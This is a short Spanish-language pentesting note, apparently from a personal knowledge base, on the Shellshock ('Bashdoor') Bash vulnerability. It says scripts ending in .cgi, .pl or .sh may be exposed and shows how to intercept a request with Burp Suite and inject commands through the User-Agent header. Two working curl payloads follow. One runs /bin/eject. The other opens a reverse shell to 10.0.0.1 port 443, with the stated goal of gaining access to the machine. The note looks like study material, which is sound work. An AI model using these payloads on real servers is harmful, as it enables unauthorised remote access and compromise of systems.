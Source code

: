 Así es llamada a la familia de bugs provenientes de la *Bash* de *Shell Unix* o también conocidas como *Bashdoor*.

Una de la vulnerabilidades encontradas era la manera de hacer un [[RCE]] mediante el *User-Agent* de una petición.
Extensiones vulnerables
- .cgi
- .pl
- .sh
entre otras.

Un ejemplo seria toparnos con un login y encontrarnos con una de las anteriores extensiones, por lo tanto con *burpsuite* podemos *interceptar* la petición y cambiar el *User-Agent* para ejecutar comandos.

	curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/

En este caso con el comando *eject* se abre la disquetera, pero nosotros intentaremos ganar acceso a la maquina, así que con ayuda de *monky pentester* hacemos un *one liner* de una [[Revert shell]] por tcp.

	curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/443 0>&1" http://example.com/

